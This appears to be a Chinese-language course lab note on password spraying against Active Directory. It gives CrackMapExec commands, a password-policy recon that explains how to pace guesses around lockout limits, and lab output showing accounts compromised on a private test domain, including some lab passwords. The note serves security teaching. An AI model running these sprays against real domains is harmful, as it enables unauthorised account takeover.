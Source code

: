 ```yaml
---
title: NTUSTISC - AD Note - Lab(Password Spraying)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(Password Spraying)
<!-- more -->
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
* 密碼收集
    * SAM.hive(Security Account Manager)
    * Password Spraying(用猜的)
        * 和brute force差在哪裡呢?其實概念一樣，只是角度不一樣，brute force是針對一隻帳號，用很多的密碼去猜；而password spraying則是用一組密碼去爆所有的帳號，其實就是反過來
        * Tool: [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) - 結合各種功能的內網滲透神器
    * GPO
    * 記憶體(lsass)

## Lab

### ==Password Spraying==
1. How to use?
    * Cheat Sheet
        ```bash
        $ crackmapexec <protocol> <target(s)> -u <a file or string only> -p <a file or string only>

        # For example
        $ crackmapexec smb 10.10.10.100 -u administrator -p Passw0rd
        $ crackmapexec smb 10.10.10.100 -u ~/file_usernames -p ~/file_passwords
        $ crackmapexec smb 10.10.10.100 -u administrator -p Passw0rd --local-auth
        $ crackmapexec smb <filename> -u administrator -p Passw0rd --local-auth
        ```
        `--local-auth`代表是用本機帳號的角度登入，就不是用domain admin的角度登入
2. Recon Password Policy
    在PowerShell中使用`$ Get-ADDefaultDomainPasswordPolicy`調查Domain上的密碼原則，Note: ==Win2016要打開==
    ```bash
    $ Get-ADDefaultDomainPasswordPolicy                                                        

    ComplexityEnabled           : False
    DistinguishedName           : DC=kuma,DC=org
    LockoutDuration             : 00:01:00
    LockoutObservationWindow    : 00:01:00
    LockoutThreshold            : 0
    MaxPasswordAge              : 00:00:00
    MinPasswordAge              : 00:00:00
    MinPasswordLength           : 4
    objectClass                 : {domainDNS}
    objectGuid                  : 29531761-1cf9-452c-8ee7-d5056e01d82b
    PasswordHistoryCount        : 24
    ReversibleEncryptionEnabled : False
    ```
    要注意的地方：
    * LockoutThreshold: 可以錯誤嘗試的次數，0就代表沒有設定，可以無限次數的爆破，如果有設定例如5，那可能就要修改攻擊策略，可能每天不能試超過兩次之類的，讓原使用者也還有容錯的空間可以登入
    * MinPasswordLength: 大多數使用者會遵從最小密碼原則，如果要猜密碼就可以嘗試從四位密碼以上開始猜
3. Check IP
    首先我們要先看一下AD的IP為多少，通常我們要做這種password spraying都是對著AD，所以我們要先尋找目標
    ```bash
    $ ipconfig

    Windows IP Configuration


    Ethernet adapter Ethernet0:

       Connection-specific DNS Suffix  . : localdomain
       Link-local IPv6 Address . . . . . : fe80::651f:6e78:505f:75f%5
       IPv4 Address. . . . . . . . . . . : 192.168.222.128
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 192.168.222.2

    Tunnel adapter isatap.localdomain:

       Media State . . . . . . . . . . . : Media disconnected
       Connection-specific DNS Suffix  . : localdomain
    ```
    IP: `192.168.222.128`
4. 在Kali使用CrackMapExec
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u administrator -p 1qaz@WSX3edc             
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
    ```
    可以看到這個網段底下的確有兩個主機的密碼被Pwn出來
5. Lab
    ==找出使用預設密碼(Changeme123!)的使用者
    找出使用(ncc1701)作為密碼的使用者==

    我先試著用前面提到的leak password from description中找到的兩組密碼實際測試看看
    帳密一、Lina Allene→`r2NE4/9:F;[k`
    帳密二、Fara Iseabal→`8F%kJ2q_cVFg`
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p r2NE4/9:F\;\[k
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\Administrator:r2NE4/9:F;[k STATUS_LOGON_FAILURE 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\aleda.appolonia:r2NE4/9:F;[k STATUS_LOGON_FAILURE
    ...
    ```
    的確是lina.allene的密碼
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p 8F%kJ2q_cVFg
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:8F%kJ2q_cVFg STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\aleda.appolonia:8F%kJ2q_cVFg STATUS_LOGON_FAILURE
    ...
    ```
    的確是fara.iseabal的密碼
    
    ---
    
    先利用win2016查詢`$ net user`然後把結果存成一個file，然後-u後面帶這個file
    ```bash
    $ crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p Changeme123\!
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:Changeme123! STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\aleda.appolonia:Changeme123! STATUS_LOGON_FAILURE
    ...
    ```
    由於這個密碼的spraying結果沒有像前面兩個這麼明確，只有ella.randee的結果與別人不一樣，我不確定是不是command下錯之類的，但結果只有這樣
    ```bash
    crackmapexec smb 192.168.222.128/24 -u ./AD-user.txt -p ncc1701
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:WIN-818G5VCOLJO) (domain:kuma.org) (signing:True) (SMBv1:True)
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [-] kuma.org\Administrator:ncc1701 STATUS_LOGON_FAILURE 
    SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\aleda.appolonia:ncc1701 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [-] kuma.org\Administrator:ncc1701 STATUS_LOGON_FAILURE 
    SMB         192.168.222.128 445    WIN-818G5VCOLJO  [+] kuma.org\aleda.appolonia:ncc1701
    ```
    最後結果顯示是aleda.appolonia這個使用者的密碼為ncc1701